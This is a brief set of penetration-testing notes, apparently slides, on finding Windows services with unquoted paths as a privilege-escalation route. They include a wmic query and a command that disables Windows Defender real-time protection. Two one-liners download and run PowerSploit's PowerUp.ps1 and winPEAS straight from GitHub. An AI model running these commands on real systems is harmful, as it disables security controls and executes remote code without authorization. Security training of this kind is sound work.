



1. Search for Unquoted paths
1. Search for Unquoted paths Site:
https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmic?redirectedfrom=MSDN
We are not interested to file which would be in the root directory C:\ like “C:\Program.exe” because to drop any
file in the root directory C:\ we should already have Administrator privileges
◇ We can use WMI Command line
tool (wmic) to query for all services and paths, specifically searching for unquoted paths
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
 ◇ poweup.ps1 script
PS> Set-MpPreference -DisableRealtimeMonitoring $true #Disable Windows Defender
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 '); Get-UnquotedService -Verbose
 ◇ WinPEAS:
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet servicesinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";
